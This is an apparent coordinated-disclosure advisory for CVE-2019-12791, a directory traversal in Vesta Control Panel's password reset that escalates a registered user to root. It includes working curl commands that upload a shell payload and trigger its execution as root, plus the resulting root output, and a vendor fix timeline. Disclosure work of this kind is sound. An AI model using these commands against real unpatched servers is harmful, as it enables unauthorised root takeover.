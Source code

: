 ```yaml
---
title: '[CVE-2019-12791] Vesta Control Panel 0.9.8-24 — Privilege escalation in the password reset form'
description: Privilege escalation to root can be achieved by a regular user via the password reset form exploiting a directory traversal vulnerability.
tags: [CVE, Vesta Control Panel, Privilege escalation, password reset]
advisory:
  discovered: 2019-04-17
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12791
---
```


## Abstract

The insufficient input sanitization used by the `v-list-user` shell utility allows to perform directory traversal and execute shell files as `root` anywhere in the file system but with a fixed file name.

This coupled with the legitimate ability of registered users to upload files in certain locations on the server grants an attacker the ability to perform privilege escalation from a registered user to `root` by simply requesting a password reset.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The `v-list-user` script accepts an user name as an argument then evaluates the `$VESTA/data/users/$user/user.conf` file and prints some values:[^vesta-variable]

```sh
source $VESTA/data/users/$user/user.conf
```

The only check that is performed against the user name is `is_object_valid 'user' 'USER' "$user"` which basically checks that the path `$VESTA/data/users/$user` is a valid directory. So if `../../../../../tmp` is passed as user name then the file `/tmp/user.conf` is evaluated.[^any-writable]

A registered user can upload files on the server using the `/upload/` endpoint. The following is used to upload the proof script to `/tmp/user.conf`:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ COMMAND='id > /usr/local/vesta/web/proof'
$ echo "$COMMAND" | curl -sk -o /dev/null \
    'https://target.com:8083/upload/?dir=/tmp' \
    -b "PHPSESSID=$PHPSESSID" \
    -F 'files=@-;filename=user.conf'
```

It is then possible to invoke the `v-list-user` utility by requesting a password reset:

```console
$ curl -k https://target.com:8083/reset/ -d 'user=../../../../../tmp'
```

In VestaCP the web server is run by the `admin` user and the password reset page executes the `v-list-user` script with `sudo` thus the `user.conf` is evaluated by `root`.

Check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^any-writable]: Any other writable location can be used, e.g., the user home directory.

[^vesta-variable]: `$VESTA` is usually set to `/usr/local/vesta/`.

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-07-31
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/bb44f4197b4e5de219bc00197f89517c7e92bc2a) the vulnerability.

2019-08-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/868dd8b146e76ea3c83c26855ae2f60b22d989d2) version 0.9.8-25.
